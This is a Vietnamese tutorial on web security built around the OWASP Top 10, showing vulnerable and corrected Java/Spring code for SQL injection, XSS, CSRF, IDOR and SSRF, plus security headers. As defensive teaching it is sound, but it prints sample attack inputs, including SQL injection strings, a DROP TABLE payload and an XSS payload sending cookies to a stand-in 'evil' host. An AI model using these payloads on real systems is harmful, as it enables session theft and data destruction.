





# Bảo mật ứng dụng web và OWASP Top 10

OWASP (Open Worldwide Application Security Project) là tổ chức phi lợi nhuận công bố danh sách **OWASP Top 10**: mười nhóm lỗ hổng hay gặp nhất ở ứng dụng web (SQL injection, XSS, authorization sai...), kèm cách phòng. Bài này đi qua từng nhóm lỗi quan trọng theo cùng một mạch: kẻ tấn công khai thác thế nào, mã dễ bị trông ra sao, và cách sửa chuẩn.

**Tóm tắt:**

- Mọi lỗ hổng web quy về một gốc: tin dữ liệu hoặc quyền do client đưa lên; vì vậy kiểm tra dữ liệu và quyền ở server, mặc định từ chối.
- OWASP Top 10 là danh sách tối thiểu cần tránh, không phải toàn bộ bảo mật; ba mục đầu là Broken Access Control, Cryptographic Failures, Injection.
- Injection xảy ra khi dữ liệu thành một phần của câu lệnh; chống bằng parameterized query, còn tên cột, bảng, `ORDER BY` thì dùng danh sách cho phép.
- XSS chống bằng output encoding theo ngữ cảnh, sau đó là CSP và cookie `HttpOnly` làm lớp thứ hai.
- CSRF tồn tại vì trình duyệt tự đính kèm cookie; chống bằng `SameSite`, token CSRF và kiểm tra `Origin`.
- IDOR là lỗi hay gặp nhất của Broken Access Control: chỉ kiểm tra đã đăng nhập mà quên kiểm tra quyền sở hữu tài nguyên.
- Phòng thủ nhiều lớp, quét dependency định kỳ, cấu hình mặc định an toàn và rate limit thuộc về checklist trước khi phát hành.

## Vì sao nên học danh sách này

Phần lớn vụ bị xâm nhập không do kẻ tấn công giỏi cao siêu mà do những lỗi đã biết từ lâu: ghép chuỗi vào câu SQL, quên kiểm tra quyền, in thông tin lỗi chi tiết ra màn hình, dùng thư viện cũ. Biết danh sách này thì bạn tránh được phần lớn các lỗi đó ngay từ lúc viết code.

## Khi nào dùng, và giới hạn của nó

Dùng khi thiết kế, review code, kiểm thử bảo mật và trước khi phát hành (đặc biệt biến nó thành checklist cho code review). Hãy hiểu đúng: đây là danh sách **tối thiểu** cần tránh, không phải toàn bộ bảo mật. Một ứng dụng "đã qua Top 10" vẫn có thể thiếu rate limit, sai logic nghiệp vụ hay lộ bí mật. Nguyên tắc chung xuyên suốt: không tin bất kỳ dữ liệu nào đến từ client, và kiểm tra quyền ở server.

## Các khái niệm cần biết

| Từ khóa | Là gì | Vì sao quan trọng |
|---|---|---|
| **Injection** | Dữ liệu người dùng bị hiểu như một phần của lệnh (SQL, shell, LDAP) | Kẻ tấn công điều khiển được câu lệnh mà bạn không định cho phép |
| **Parameterized query** | Câu SQL gửi riêng, giá trị gắn riêng qua `?` | Cách phòng chuẩn cho SQL injection |
| **XSS** | Kẻ tấn công chèn JavaScript chạy trong trình duyệt người khác | Đánh cắp session, thao túng trang |
| **CSRF** | Trang độc hại khiến trình duyệt nạn nhân gửi request kèm cookie hợp lệ | Thực hiện hành động thay nạn nhân |
| **IDOR** | Đổi id trong URL để truy cập tài nguyên của người khác | Dạng phổ biến nhất của Broken Access Control |
| **SSRF** | Lừa server gọi tới địa chỉ do kẻ tấn công chọn | Vào được dịch vụ nội bộ, metadata đám mây |
| **Mass assignment** | Client gửi thêm trường (ví dụ `role`) mà server gán thẳng vào object | Tự nâng quyền |
| **CSP** | Header khai báo nguồn script, ảnh... được phép tải | Lớp phòng thủ thứ hai chống XSS |
| **Clickjacking** | Nhúng trang của bạn trong khung ẩn để lừa người dùng bấm | Chặn bằng `frame-ancestors` |
| **Path traversal** | Dùng `../` để thoát ra ngoài thư mục cho phép | Đọc được file tùy ý trên server |

**Nền tảng:** Mọi lỗ hổng web quy về một gốc: **tin dữ liệu hoặc quyền do client đưa lên**. Vì vậy hai việc luôn đúng: kiểm tra và escape dữ liệu ở server, và kiểm tra quyền ở server cho mọi endpoint (mặc định từ chối).

## OWASP Top 10 (bản 2021, nên đối chiếu bản mới nhất)

| # | Nhóm | Ý chính |
|---|---|---|
| A01 | Broken Access Control | Người dùng làm được việc ngoài quyền |
| A02 | Cryptographic Failures | Encryption yếu, lộ dữ liệu nhạy cảm |
| A03 | Injection | Dữ liệu người dùng bị hiểu như lệnh |
| A04 | Insecure Design | Thiếu mô hình mối đe dọa từ đầu |
| A05 | Security Misconfiguration | Cấu hình mặc định, thông tin lỗi chi tiết |
| A06 | Vulnerable and Outdated Components | Thư viện có lỗ hổng đã biết |
| A07 | Identification and Authentication Failures | Đăng nhập, session yếu |
| A08 | Software and Data Integrity Failures | Cập nhật, pipeline, deserialization không tin cậy |
| A09 | Logging and Monitoring Failures | Không phát hiện được tấn công |
| A10 | SSRF | Server bị lừa gọi tới địa chỉ nội bộ |

Danh sách trên là bản 2021. OWASP đã có bản cập nhật mới hơn với thứ tự và cách gộp nhóm khác (ví dụ SSRF không còn là mục riêng), nên khi dùng làm checklist hãy kiểm tra lại theo bản mới nhất trên owasp.org; các lỗi bên dưới vẫn đúng cho dù đánh số khác.

**Phải thuộc:** Ba mục đứng đầu cần nhớ tên và ý: A01 Broken Access Control (làm được việc ngoài quyền), A02 Cryptographic Failures (encryption yếu, lộ dữ liệu), A03 Injection (dữ liệu bị hiểu như lệnh, gồm cả XSS trong bản 2021).

## Các lỗi quan trọng và cách phòng

Phần này là tóm tắt nhanh từng lỗi; mục "Mã dễ bị và mã đã sửa" ngay sau đó đi sâu hơn kèm cơ chế và ví dụ chạy được.

**SQL injection (A03)**

```java
// SAI: nối chuỗi
stmt.executeQuery("SELECT * FROM users WHERE name = '" + name + "'");
// ĐÚNG: tham số hóa
var ps = conn.prepareStatement("SELECT * FROM users WHERE name = ?");
ps.setString(1, name);
```

Với JPA dùng tham số có tên; không ghép chuỗi vào JPQL/native query. Cũng áp dụng cho lệnh hệ điều hành, LDAP, NoSQL.

**XSS (Cross-Site Scripting, A03)**: kẻ tấn công chèn JavaScript vào trang người khác xem. Phòng: **output encoding** theo ngữ cảnh (HTML, attribute, JS), dùng framework tự escape, `Content-Security-Policy`, cookie `HttpOnly`.

**CSRF**: trang độc hại khiến trình duyệt của nạn nhân gửi request có cookie hợp lệ. Phòng: token CSRF, cookie `SameSite`, kiểm tra `Origin`. API chỉ dùng header `Authorization` (không dựa cookie) ít bị CSRF.

**Broken Access Control / IDOR (A01)**



Lỗi hay gặp là chỉ kiểm tra "đã đăng nhập" mà quên kiểm tra **quyền sở hữu tài nguyên**. Kiểm tra quyền ở phía server, ở mọi endpoint, mặc định từ chối.

**SSRF (A10)**: server nhận URL từ người dùng rồi tải về, kẻ tấn công trỏ tới `http://169.254.169.254` (metadata đám mây) hoặc dịch vụ nội bộ. Phòng: danh sách cho phép địa chỉ đích, chặn dải IP nội bộ, không theo chuyển hướng tùy ý.

**Deserialization không tin cậy (A08)**: không dùng `ObjectInputStream` cho dữ liệu bên ngoài; dùng JSON với kiểu cố định.

**Path traversal**: chuẩn hóa đường dẫn và kiểm tra còn nằm trong thư mục cho phép (xem [I/O](/go?p=08-Java%2FJava-Core%2Fmedium%2Flt-10-io-nio.md)).

## Mã dễ bị và mã đã sửa

### SQL injection (A03)

Cơ chế: dữ liệu người dùng được nối vào câu lệnh nên **trở thành một phần của câu lệnh**. Với `name = "x' OR '1'='1"`, câu SQL ghép ra (đã chạy) là:

```sql
SELECT * FROM users WHERE name = 'x' OR '1'='1'
```

Điều kiện luôn đúng nên trả về mọi người dùng. Diễn biến cuộc tấn công:



Nếu dùng parameterized query, bước nối chuỗi biến mất: câu lệnh và giá trị đi riêng, giá trị luôn chỉ là dữ liệu. Về hậu quả: ví dụ trên chỉ làm lộ dữ liệu, nhưng tùy quyền của tài khoản DB, injection còn có thể sửa, xóa dữ liệu hoặc thực thi lệnh; với `'; DROP TABLE users; --` còn tệ hơn nếu driver cho phép chạy nhiều lệnh.

```java
// DỄ BỊ: nối chuỗi
String sql = "SELECT id, email FROM users WHERE name = '" + name + "'";
try (Statement st = conn.createStatement(); ResultSet rs = st.executeQuery(sql)) { ... }

// ĐÃ SỬA: tham số hóa, giá trị đi riêng khỏi câu lệnh
String sql = "SELECT id, email FROM users WHERE name = ?";
try (PreparedStatement ps = conn.prepareStatement(sql)) {
    // dù name chứa dấu nháy, nó vẫn chỉ là dữ liệu
    ps.setString(1, name);
    try (ResultSet rs = ps.executeQuery()) { ... }
}
```

**Phải thuộc:** Chống SQL injection bằng parameterized query (`PreparedStatement` với `?`), không bao giờ nối chuỗi vào câu SQL. Tên cột, tên bảng, `ORDER BY` không parameterize được nên phải dùng danh sách cho phép.

Câu lệnh được phân tích trước, giá trị gắn sau, nên dữ liệu không bao giờ được hiểu như cú pháp SQL. Chỗ parameterize **không** dùng được: tên cột, tên bảng, `ORDER BY`, chiều sắp xếp. Với những chỗ này dùng danh sách cho phép:

```java
Set<String> allowed = Set.of("name", "created_at");
// không bao giờ nối sortBy thẳng vào SQL
String col = allowed.contains(sortBy) ? sortBy : "created_at";
```

Với Spring Data JPA: `@Query("select u from User u where u.name = :name")` với `@Param("name")`; không dựng JPQL bằng `+`. Ký tự `%` trong `LIKE` vẫn là ký tự đặc biệt của LIKE, ghép phía tham số (`"%" + keyword + "%"`) và cân nhắc escape.

### XSS (A03)

Cơ chế: dữ liệu do người dùng nhập được đưa vào HTML mà không escape, trình duyệt thực thi nó như mã. Có ba dạng: **stored** (mã độc lưu trong DB, ví dụ bình luận, ai xem cũng dính), **reflected** (mã nằm trong URL và được phản chiếu lại vào trang) và **DOM-based** (mã phía client tự chèn dữ liệu vào DOM). Dạng stored nguy hiểm nhất vì không cần lừa nạn nhân bấm link độc.



**Phải thuộc:** XSS có ba dạng (stored, reflected, DOM-based). Phòng chính là escape đầu ra theo ngữ cảnh; lớp thứ hai là CSP và cookie `HttpOnly`.

Chặn ở hai điểm: escape khi xuất ra HTML (để script thành chữ) và CSP/`HttpOnly` (để nếu lọt thì thiệt hại giảm).

```java
// DỄ BỊ: ghép thẳng vào HTML
// name = <script>fetch('//evil/'+document.cookie)</script>
return "<p>Xin chào " + name + "</p>";

// ĐÃ SỬA: escape đầu ra theo ngữ cảnh HTML
static String escapeHtml(String s) {
    StringBuilder sb = new StringBuilder(s.length() + 16);
    for (char c : s.toCharArray()) {
        switch (c) {
            case '&':  sb.append("&amp;");  break;
            case '<':  sb.append("&lt;");   break;
            case '>':  sb.append("&gt;");   break;
            case '"':  sb.append("&quot;"); break;
            case '\'': sb.append("&#x27;"); break;
            default:   sb.append(c);
        }
    }
    return sb.toString();
}
```

Đã chạy: `<script>alert(1)</script>` thành `&lt;script&gt;alert(1)&lt;/script&gt;`, hiển thị như chữ chứ không chạy; `" onmouseover="alert(1)` thành `&quot; onmouseover=&quot;alert(1)`, nên không thoát được khỏi giá trị attribute. Hàm này đủ cho ngữ cảnh nội dung HTML và attribute **có đặt trong dấu nháy**; trong sản phẩm hãy dùng cơ chế của template engine: Thymeleaf `th:text` (escape) thay vì `th:utext` (không escape), React/Vue escape sẵn trừ `dangerouslySetInnerHTML` / `v-html`.

| Ngữ cảnh đầu ra | Cách escape |
|---|---|
| Nội dung HTML, attribute trong nháy | Escape HTML như trên |
| Giá trị trong `<script>` | Không ghép dữ liệu vào script; truyền bằng JSON an toàn hoặc attribute `data-` |
| URL (`href`) | Kiểm tra scheme là `http`/`https`, chặn `javascript:`; URL encoding tham số |
| DOM phía client | `textContent` thay cho `innerHTML` |

Lớp phòng thủ thứ hai: `Content-Security-Policy` (bên dưới) và cookie `HttpOnly`, để dù có lọt XSS thì khó đánh cắp session.

**Suy luận:** Trình duyệt không phân biệt được đâu là HTML do bạn viết, đâu là chuỗi do người dùng nhập: nó chỉ nhận một dòng văn bản và phân tích cú pháp. Vì vậy hễ một ký tự đặc biệt như `<` hay `"` đi vào trang mà không bị biến thành thực thể, trình duyệt sẽ hiểu nó là cú pháp và chạy script trong origin của bạn, với đầy đủ quyền đọc cookie, gọi API và sửa giao diện. Điều này kéo theo ba hệ quả. Thứ nhất, cách phòng đúng phải nằm ở chỗ xuất dữ liệu ra, và phải theo ngữ cảnh, vì cùng một chuỗi cần escape khác nhau khi nằm trong nội dung HTML, attribute, URL hay JavaScript; lọc đầu vào chỉ là phụ vì bạn không biết sau này dữ liệu sẽ đi vào ngữ cảnh nào. Thứ hai, template engine escape mặc định là cách rẻ nhất để không quên, và các lối thoát như `th:utext`, `v-html`, `dangerouslySetInnerHTML` chính là chỗ cần soi khi review. Thứ ba, vì không thể chắc chắn mọi chỗ đều escape đúng, ta thêm lớp thứ hai: CSP giới hạn nguồn script được chạy, `HttpOnly` làm script có chạy cũng không đọc được session cookie. Điểm dễ nhầm là nghĩ rằng stored XSS nguy hiểm vì "lưu trong DB": thực ra nó nguy hiểm vì nạn nhân không cần bấm link độc, và vì dữ liệu lưu một lần nhưng được render ở nhiều trang, chỉ cần một trang quên escape là đủ.

### CSRF



**Nền tảng:** CSRF tồn tại vì trình duyệt tự đính kèm cookie theo domain, bất kể trang nào phát ra request. XSS khác CSRF: XSS chạy mã trong trang của bạn (đọc được dữ liệu), còn CSRF chỉ lợi dụng cookie để gửi request (không đọc được response).

Gốc rễ: trình duyệt tự gửi cookie theo domain, bất kể trang nào phát request. Phòng:

| Biện pháp | Cách hoạt động |
|---|---|
| `SameSite=Lax` hoặc `Strict` | Cookie không đi kèm request chéo site (Lax vẫn cho điều hướng GET cấp cao) |
| Token CSRF | Server sinh token ngẫu nhiên gắn với session, request đổi state phải mang token trong header hoặc trường form; trang khác không đọc được token để đưa vào |
| Kiểm tra `Origin`/`Referer` | Từ chối nếu không thuộc các origin của mình |
| API chỉ dùng `Authorization: Bearer` | Trình duyệt không tự đính kèm, nên không bị CSRF (nhưng đổi lại lưu token cần cẩn thận) |

Spring Security bật CSRF mặc định cho ứng dụng session. Với SPA đọc token từ cookie rồi gửi lại qua header (mẫu code, chưa chạy):

```java
http.csrf(csrf -> csrf.csrfTokenRepository(CookieCsrfTokenRepository.withHttpOnlyFalse()));
// SPA đọc cookie XSRF-TOKEN rồi gửi header X-XSRF-TOKEN; kẻ tấn công ở site khác không đọc được cookie của bank.com
```

Chỉ tắt CSRF (`csrf.disable()`) khi API thật sự không dùng cookie authentication.

**Suy luận:** Trình duyệt gắn cookie dựa trên domain đích của request, không dựa trên trang nào phát ra request đó. Vì thế khi bạn đang đăng nhập `bank.com`, một form tự gửi từ `evil.com` tới `bank.com` vẫn mang cookie hợp lệ, và server không có cách nào phân biệt với request thật nếu chỉ nhìn cookie. Từ gốc này suy ra các cách phòng: hoặc làm cookie không đi theo request chéo site (`SameSite`), hoặc buộc request đổi state phải mang một thứ mà trang khác không có (token CSRF ngẫu nhiên, hoặc header `Authorization` mà trình duyệt không tự gắn), hoặc kiểm tra nguồn gốc request qua `Origin`. Điểm dễ nhầm có hai. Thứ nhất, CSRF kẻ tấn công không đọc được response, nên nó chỉ nguy hiểm với thao tác đổi state, và chính vì vậy GET không được phép đổi state. Thứ hai, XSS vô hiệu hóa token CSRF vì script chạy trong origin của bạn đọc được token, nên CSRF protection không thay thế được việc chống XSS. Khi review, hãy kiểm tra mọi endpoint đổi state dùng cookie đều có token hoặc `SameSite`, và chỉ tắt `csrf.disable()` khi API thật sự stateless và không dựa cookie.

### IDOR / Broken Access Control (A01)

Cơ chế: client truyền id tài nguyên, server chỉ kiểm tra "đã đăng nhập", không kiểm tra id đó có thuộc người gọi. Kẻ tấn công đổi `/orders/1234` thành `/orders/1235`.

```java
// DỄ BỊ: ai đăng nhập cũng đọc được đơn của người khác
@GetMapping("/orders/{id}")
Order get(@PathVariable long id) {
    return orderRepo.findById(id).orElseThrow(NotFoundException::new);
}

// ĐÃ SỬA: điều kiện sở hữu nằm ngay trong truy vấn
@GetMapping("/orders/{id}")
Order get(@PathVariable long id, @AuthenticationPrincipal UserPrincipal me) {
    // không phải của mình thì không tìm thấy
    return orderRepo.findByIdAndOwnerId(id, me.getId())
            // 404, không lộ việc id tồn tại
            .orElseThrow(NotFoundException::new);
}
```

**Phải thuộc:** Đăng nhập rồi (authentication) chưa có nghĩa được phép (authorization). Luôn kiểm tra quyền sở hữu tài nguyên ở server; UUID khó đoán không thay thế được kiểm tra quyền.

Đưa điều kiện sở hữu vào truy vấn tốt hơn lấy ra rồi `if` sau, vì khó quên và không có đường lấy dữ liệu "trần". Dùng id khó đoán (UUID) chỉ làm khó dò, **không** thay cho kiểm tra quyền. Chú ý cả ghi (`PUT`, `DELETE`), trường được phép sửa (mass assignment: client gửi thêm `"role":"ADMIN"`), và kiểm tra theo vai trò bằng `@PreAuthorize`.

### SSRF (A10)

Cơ chế: tính năng "tải ảnh từ URL", "xem trước liên kết" hay webhook khiến **server** gọi tới địa chỉ mà người dùng đưa vào. Server nằm trong mạng nội bộ nên truy cập được những thứ mà kẻ tấn công từ ngoài không với tới, nhất là endpoint metadata của đám mây (`169.254.169.254`) nơi có thể lấy được credential tạm. Dùng kiểm tra dưới đây bất cứ khi nào server nhận URL từ người dùng; không cần khi địa chỉ đích do bạn cố định trong cấu hình.



Đoạn mã dưới thực hiện bước kiểm tra IP trong sơ đồ:

```java
static boolean isSafe(String url) throws Exception {
    URI u = new URI(url);
    if (!"https".equals(u.getScheme()) || u.getHost() == null) return false;
    for (InetAddress ip : InetAddress.getAllByName(u.getHost())) {
        if (ip.isAnyLocalAddress() || ip.isLoopbackAddress() || ip.isLinkLocalAddress()
                || ip.isSiteLocalAddress() || ip.isMulticastAddress()) return false;
    }
    return true;
}
```

Đã chạy với địa chỉ IP: `169.254.169.254` (metadata đám mây, link-local), `10.0.0.5`, `127.0.0.1`, `[::1]` đều bị từ chối; `http://8.8.8.8/` bị từ chối vì không phải https; `https://8.8.8.8/` được chấp nhận. Giới hạn của đoạn này: không bao phủ dải `100.64.0.0/10` và địa chỉ IPv6 ULA (`fc00::/7`); kẻ tấn công có thể đổi record DNS giữa lúc kiểm tra và lúc kết nối (DNS rebinding), nên cách chắc hơn là danh sách cho phép tên miền đích và kết nối thẳng tới IP đã kiểm tra, tắt tự động theo chuyển hướng.

## Header bảo mật

Header bảo mật là "lớp phòng thủ thứ hai": chúng không sửa lỗi trong code của bạn, nhưng ra lệnh cho trình duyệt hạn chế những việc nguy hiểm, nên một lỗi lọt ra thường gây ít thiệt hại hơn. Chi phí gần như bằng không, nên nên bật cho mọi site.

| Header | Tác dụng |
|---|---|
| `Strict-Transport-Security` | Buộc HTTPS |
| `Content-Security-Policy` | Giới hạn nguồn script/ảnh, giảm XSS |
| `X-Content-Type-Options: nosniff` | Chặn đoán sai kiểu nội dung |
| `X-Frame-Options` / `frame-ancestors` | Chống nhúng khung (clickjacking) |
| `Referrer-Policy` | Hạn chế lộ URL |

### Cấu hình thực tế

Response mẫu (**minh họa**):

```text
Strict-Transport-Security: max-age=31536000; includeSubDomains
Content-Security-Policy: default-src 'self'; script-src 'self'; img-src 'self' data:; object-src 'none'; base-uri 'self'; frame-ancestors 'none'
X-Content-Type-Options: nosniff
Referrer-Policy: strict-origin-when-cross-origin
```

| Chỉ thị | Ý nghĩa |
|---|---|
| `default-src 'self'` | Mặc định chỉ tải tài nguyên từ chính origin |
| `script-src 'self'` | Chỉ chạy script từ origin mình: script chèn inline (`<script>...</script>`) bị chặn, đây là phần chống XSS chính |
| `object-src 'none'`, `base-uri 'self'` | Chặn plugin và việc đổi URL gốc |
| `frame-ancestors 'none'` | Không cho trang khác nhúng khung (thay `X-Frame-Options`) |
| `max-age` (HSTS) | Trình duyệt chỉ dùng HTTPS cho domain này trong chừng ấy giây (31536000 là một năm) |

Lưu ý khi deploy: thêm `'unsafe-inline'` vào `script-src` gần như vô hiệu hóa CSP chống XSS; nếu buộc phải có script inline thì dùng nonce hoặc hash. Thử CSP bằng `Content-Security-Policy-Report-Only` trước để thấy cái gì sẽ bị chặn mà chưa làm hỏng trang. HSTS khó lùi lại (trình duyệt nhớ đến hết `max-age`), nên bắt đầu bằng `max-age` ngắn và chỉ thêm `includeSubDomains` khi chắc mọi subdomain đều chạy HTTPS; header này chỉ có tác dụng khi gửi qua HTTPS.

Cấu hình Spring Security 6 (mẫu code, chưa chạy độc lập; Spring đã tự thêm `X-Content-Type-Options` và `X-Frame-Options`, còn HSTS chỉ gửi trên kết nối HTTPS, CSP thì phải tự đặt):

```java
http.headers(h -> h
    .httpStrictTransportSecurity(hsts -> hsts.includeSubDomains(true).maxAgeInSeconds(31536000))
    .contentSecurityPolicy(csp -> csp.policyDirectives(
        "default-src 'self'; script-src 'self'; img-src 'self' data:; "
        + "object-src 'none'; base-uri 'self'; frame-ancestors 'none'"))
    .referrerPolicy(r -> r.policy(ReferrerPolicyHeaderWriter.ReferrerPolicy.STRICT_ORIGIN_WHEN_CROSS_ORIGIN))
);
```

Kiểm tra từ bên ngoài: `curl -sI https://shop.example.com | grep -i -E 'strict-transport|content-security|x-content-type'`; nếu có reverse proxy đứng trước, đảm bảo header không bị proxy xóa hoặc nhân đôi.

## Nguyên tắc nền

Mọi lỗi ở trên đều quy về vài nguyên tắc chung. Nếu chỉ nhớ một vài ý, hãy nhớ các ý sau, vì chúng áp dụng được cả cho những lỗi chưa có tên trong danh sách:

**Phải thuộc:** Bốn nguyên tắc: không tin dữ liệu từ ngoài, đặc quyền tối thiểu, phòng thủ nhiều lớp, thất bại an toàn (lỗi thì từ chối).


- **Không tin dữ liệu từ ngoài**: kiểm tra đầu vào (danh sách cho phép), output encoding.
- **Đặc quyền tối thiểu** cho tài khoản DB, quyền ứng dụng, API key.
- **Phòng thủ nhiều lớp**: một lớp hỏng không sụp toàn bộ.
- **Thất bại an toàn**: lỗi thì từ chối, không "mở cửa".
- Thông báo lỗi chung chung cho người dùng, chi tiết ghi vào log nội bộ.

## Điều cần nhớ

- Quét dependency định kỳ (Dependabot, OWASP Dependency-Check); cập nhật bản vá.
- Không log mật khẩu, token, dữ liệu cá nhân.
- Rate limit và lockout tạm sau nhiều lần đăng nhập sai (xem [Rate Limiter](/go?p=15-System%20Design%2Feasy%2F03-rate-limiter.md)).

